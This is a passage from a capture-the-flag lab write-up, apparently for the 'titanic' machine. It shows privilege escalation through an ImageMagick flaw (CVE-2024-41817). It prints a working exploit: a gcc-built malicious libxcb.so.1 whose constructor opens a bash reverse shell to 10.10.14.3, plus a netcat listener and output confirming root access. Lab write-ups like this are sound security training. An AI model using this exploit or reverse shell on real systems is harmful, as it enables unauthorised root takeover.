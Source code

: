 Looking at the magick version used in the script we identify the following:

```bash
 Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

This version of magick is vulnerable to Arbitrary Code Execution under [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8). We modify the POC used in the github security advisory to get a reverse shell onto the root user:

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init() {
    system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.3/3333 0>&1'");
    exit(0);
}
EOF
```

```bash
nc -lnvp 3333
```
```bash
listening on [any] 3333 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.55] 56142
bash: cannot set terminal process group (40510): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# whoami
root
```

![](Pasted%20image%2020250217192518.png)


## Useful Links

- [CVE](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)
- [Gitea Hash Grapper](https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271)
